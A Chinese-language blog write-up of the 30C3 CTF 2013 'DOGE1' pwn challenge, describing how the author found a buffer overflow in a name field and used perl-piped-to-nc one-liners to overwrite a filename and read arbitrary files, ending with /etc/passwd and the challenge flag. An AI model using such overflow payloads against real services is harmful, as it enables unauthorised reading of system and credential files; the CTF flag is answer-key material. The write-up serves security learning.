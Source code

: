 title: 30C3CTF 2013 PWN 100 DOGE1
date: 2013-12-30 21:25
category: ctf
tags: 30c3CTF, pwn
slug: 30c3ctf_2013_pwn_100_doge1

這次都沒有人陪打 QQ  
只解兩題 100 分...真慘  
不過這題 100 分，跟另一題的難度也差太多了吧 = =  
* * *

先用 nc 連線過去，要求我們輸入名稱，然後就看到一隻...豬頭?  
提示有兩個指令好用: `feed`, `show`  
`show` 是再印一次豬頭，`feed` 也差不多，奇怪的功能 = =  
![doge1.png]({filename}/images/30c3CTF_2013_doge_1.png)  

假如不輸入 `feed` 或 `show`，試著輸入長字串，毫無反應 Orz  
試試看輸入超長名稱....沒有印出那顆豬頭了 XD  

這題有提供原始程式，資料夾底下有三個檔案:

* ascii\_art\_doge\_color.txt
* doge.so
* run.py

*ascii_art_doge_color.txt* 就是那隻豬頭的 ascii 圖檔  
*run.py* 只有：  

```
#!/usr/bin/env python
import signal
import doge
signal.signal(signal.SIGCHLD, signal.SIG_IGN)
doge.listen("0.0.0.0", 1024)
```

*doge.so* 是編譯過的 linux library  
執行起來，並且輸入長字串看看結果，結果 server 端有噴出錯誤訊息  
>...  
>File "doge.pyx", line 54, in doge.Doge.\_\_str\_\_ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'  

看來是發生 bof 了 XD  
繼續試一下前面塞多少才會蓋到，結果是 "a"x32  
`perl -e 'print "a"x32 . "test"' | nc 0 1024`  
>...  
>File "doge.pyx", line 54, in doge.Doge.__str__ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'testi\_art\_doge\_color.txt'  

試試看能不能成功讀檔：
`perl -e 'print "a"x32 . "run.py\x00"' | nc 0 1024`
>Dogename: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaarun.py#!/usr/bin/env python  
>import signal  
>import doge  
>signal.signal(signal.SIGCHLD, signal.SIG\_IGN)  
>doge.listen("0.0.0.0", 1024)  
>commands: feed, show  

接下來就是猜猜看了...試了幾個檔案像是 *flag* , *flag.txt* , *key* , *key.txt* ...都失敗了 = =  
最後猜到 */etc/passwd*  
![flag.png]({filename}/images/30c3CTF_2013_doge_flag.png)

key: `30C3_51dd250e0adb864ff40cc40b818852f4`
